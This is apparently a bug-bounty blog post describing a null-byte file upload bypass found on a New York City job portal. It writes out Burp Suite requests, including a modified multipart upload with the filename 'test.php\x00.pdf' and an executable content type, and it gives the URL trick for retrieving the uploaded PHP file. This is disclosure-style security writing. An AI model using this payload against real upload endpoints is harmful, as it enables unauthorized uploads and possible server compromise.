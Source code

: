 ```yaml
---
layout: post
title: "Null-Byte File Upload Bypass: PoC on a NYC Portal"
date: 2025-08-29
categories: [bug-bounty]
image: https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dIWSWrtC08kIaoVTLITp5w.jpeg
permalink: /blog/NYC-DOWN-FUV
locked: false
---
```


While searching for jobs on a New York City job portal, I decided to create an account and explore the platform’s features. One of the first things I did was update my profile and upload my resume, just like any typical job seeker would. The profile page looked something like this:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*LfMseQB6u9eC7ER5irMVAA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

As I interacted with the site, I started to notice some interesting behaviors in the file upload functionality. The platform only allowed certain file types specifically PDF and TXT files. Any attempt to upload other or potentially malicious files was blocked.

When uploading a file, you would see a request similar to this:

<div class="code-block-container">
  <span class="code-lang-tag">burp suite request</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-javascript">
POST /upload HTTP/1.1
Host: localhost:5000
Content-Length: 49871
Cache-Control: max-age=0
Origin: http://localhost:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvqrfq0aFgpBXXzTT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:5000/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.aLHqhg.2zjRjDid41OHk7Nrgl1dXJZ8n70
Connection: keep-alive

------WebKitFormBoundaryvqrfq0aFgpBXXzTT
Content-Disposition: form-data; name="file"; filename="rest.pdf"
Content-Type: application/pdf

%PDF-1.3
%Äåòåë§ó ÐÄÆ
4 0 obj
<< /Length 5 0 R /Filter /FlateDecode >>
stream.....
</code></pre>
</div>

However, if we modify the upload request and change the filename to include a null byte (for example, `test.php\x00.pdf`) and set the `Content-Type` to something like `application/vnd.microsoft.portable-executable`, the server processes the file as `test.php\x00.pdf`. This could potentially allow us to bypass the file type restrictions.

Here’s how the modified request would look:

<div class="code-block-container">
  <span class="code-lang-tag">burp suite request (null byte bypass)</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-javascript">
POST /upload HTTP/1.1
Host: localhost:5000
Content-Length: 49871
Cache-Control: max-age=0
Origin: http://localhost:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvqrfq0aFgpBXXzTT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:5000/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.aLHqhg.2zjRjDid41OHk7Nrgl1dXJZ8n70
Connection: keep-alive

------WebKitFormBoundaryvqrfq0aFgpBXXzTT
Content-Disposition: form-data; name="file"; filename="test.php\x00.pdf"
Content-Type: application/vnd.microsoft.portable-executable

<--MZ binary content-->
------WebKitFormBoundaryvqrfq0aFgpBXXzTT--
</code></pre>
</div>

This trick can sometimes bypass weak file validation mechanisms, potentially allowing the upload of executable or malicious files.

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*4sE7RSkRelC-XNJeqqNgBg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Now, when you try to access the uploaded file, the application returns a "Page Not Found" error, and the URL looks like this:

```
http://localhost:5000/file/filename.php/x00
```

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*yPJ1-vbmpXkK2wkQYowPtA.png"
  alt="Null byte file download demo"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

However, if you manually remove the `/x00` from the URL so it becomes:

```
http://localhost:5000/file/filename.php
```

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*FUQ2f6XnHFX7cxqhFNDRFg.png"
  alt="Null byte file download demo"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

you are able to download the uploaded PHP file directly.

Below is a demonstration of replicating this vulnerability on a test environment (not the NYC job portal), but the screenshots above are from the real site:

## Video Demonstration

<div style="position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden;">
  <iframe 
    src="https://www.youtube.com/embed/p3waRC1e7jo" 
    frameborder="0" 
    allowfullscreen 
    style="position: absolute; top:0; left: 0; width: 100%; height: 100%;">
  </iframe>
</div>

**Thank you for reading!** If you found this post helpful or interesting, stay tuned for more cybersecurity stories and insights. See you

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*TEgAP1FqQNaH7JkeQaumFw.jpeg"
  alt="No Detection"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>
